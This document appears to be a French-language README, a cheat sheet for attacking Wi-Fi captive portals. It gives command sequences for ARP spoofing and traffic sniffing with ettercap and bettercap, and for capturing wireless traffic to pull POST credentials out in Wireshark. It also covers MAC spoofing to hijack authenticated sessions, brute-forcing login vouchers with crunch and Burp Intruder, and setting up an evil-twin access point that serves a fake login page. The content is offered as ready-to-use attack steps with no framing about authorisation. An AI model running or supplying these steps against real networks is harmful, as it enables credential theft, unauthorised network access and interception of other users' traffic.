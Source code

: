 # Captive-Portal-Hack
Captive portal hacking

**-->Arp Spoofing / MiTm**  

Outils: ettercap, bettercap, air... suite, wireshark ...  

Commandes utiles et steps:  

**Ettercap**  
-$sudo ettercap -Tq -M arp:remote -i wlan0 ///  

**airmon-ng, airodump-ng, wireshark**  
-$sudo airmon-ng check kill  
-$sudo airmon-ng start wlan0  
-$sudo airodump-ng wlan0  
-$sudo airodump-ng --bssid <BSSID> -c <CH> -w nomFichierCapture wlan0  
Ensuite ouvrir le fichier de capture .cap dans wireshark et filtrer les traffics post (http.request.method==POST).  

**Bettercap**
-$sudo bettercap -iface wlan0 
  Dans la console bettercap:
    >net.probe on
    >net.recon on
    >arp.spoof on 
    >net.sniff on

**-->Mac Spoofing**
Outils: aircrack-ng suite, ip ...

Commandes utiles:

**aircrack suite, ifconfig, macchanger**
-$sudo airmon-ng start wlan0
-$sudo airodump-ng wlan0mon 
-$sudo ifconfig wlan0 down
-$sudo macchanger -m AA:BB:CC:DD:EE:FF wlan0
-$sudo iwconfig wlan0 mode managed
-$sudo ifconfig wlan0 up
-$sudo systemctl restart NetworkManager


**--> Bruteforce des identifiants**
Outils : crunch, burpsuite

Quelques prérequis:
Observer le format des mots de passe/vouchers (longueur, caractères) pour créer un dictionnaire ciblé.
Le MAC spoofing peut servir à identifier un nom d’utilisateur via la page /status.

-$crunch <minLength> <maxLength> <charset> > dictionnaire.txt

**Steps**
- Ouvrir Burp Suite et aller dans l’onglet Proxy.
- Configurer le navigateur pour passer par le proxy de Burp ou utiliser le navigateur intégré.
- Charger la page de login et soumettre des identifiants incorrects.
- Intercepter la requête et l’envoyer à Intruder.
- Sélectionner les champs à brute-forcer.
- Choisir Battering Ram (username = password) ou Cluster Bomb (username ≠ password).
- Charger le dictionnaire.
- Dans Resource Pool, définir delay between requests = 1000 ms et max concurrent requests = 1.
- Lancer l’attaque et observer une réponse de longueur très différente (ça aura un code 302 redirect ou un 404 not found)


**--> Faux points d'accès**
Outils: fluxion, airbase-ng
Commandes utiles:
-$sudo airmon-ng start wlan0
-$sudo airbase-ng -e "EvilTwinName" -c 6 wlan0

Servir une fausse page de connexion et rediriger tout le traffic http vers elle



